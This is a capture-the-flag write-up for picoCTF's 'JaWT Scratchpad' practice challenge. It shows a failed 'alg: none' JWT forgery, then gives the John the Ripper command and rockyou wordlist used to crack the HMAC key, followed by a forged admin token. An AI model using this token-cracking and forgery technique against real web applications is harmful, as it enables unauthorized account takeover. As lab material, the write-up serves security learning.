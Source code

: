 ```yaml
---
title: "JaWT-Scratchpad"
date: "2020-12-26"
author: "RealFakeAccount"
description: "https://play.picoctf.org/practice/challenge/25
---
```

This is a learning-solving question.

Both website and hint tell us to look up JWT. 

After searching `JWT vulnerabilities` in Google, you can find this:

<https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/>

But after implementing this method, it seems wrong. When you Change the `jwt cookies` to 

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VyIjoiYWRtaW4ifQ.
```

Which stands for the payload: 

```json
{
  "typ": "JWT",
  "alg": "none"
}

{
  "user": "admin"
}

{

}
```

You only get an 500 error. 

Read through this article <https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens> , combining the [hint](https://github.com/magnumripper/JohnTheRipper) they give, we can guess that we should bruteforce the password.

Also, because this scratchpad only use username as identity, we can guess that the `key` that used for encryption is fixed.

We can start solving this question after we know what to do.

First, generate a arbitrary `jwt cookies`. I will use username `john` here.

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiam9obiJ9._fAF3H23ckP4QtF1Po3epuZWxmbwpI8Q26hRPDTh32Y
```

Then, use [john-the-ripper](https://github.com/openwall/john) to bruteforce the key. You can use dictionary [rockyou](https://www.google.com/search?q=rockyou+txt) to bruteforce.

```
echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiam9obiJ9._fAF3H23ckP4QtF1Po3epuZWxmbwpI8Q26hRPDTh32Y" > passwd

john --wordlist=./rockyou.txt passwd
```

We can see that the key is `ilovepico`.

We can then change the original payload using our key. You can conveniently do this step here: <https://www.jsonwebtoken.io/> 

After changing the user into `admin`, you can get the result JWT string:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4iLCJqdGkiOiI5NTc0NWVkNC04ZmVkLTRhZWQtYmU3Zi1iMDI3MDU0ZjUzM2IiLCJpYXQiOjE2MDkxMTM2OTgsImV4cCI6MTYwOTExNzMwNH0.8Eq1KaMo8cDtH3o79g04qKtx_muepD1zqGss3oiekPs
```

Replacing the original `jwt cookies` in the question to this, we can finally get the flag.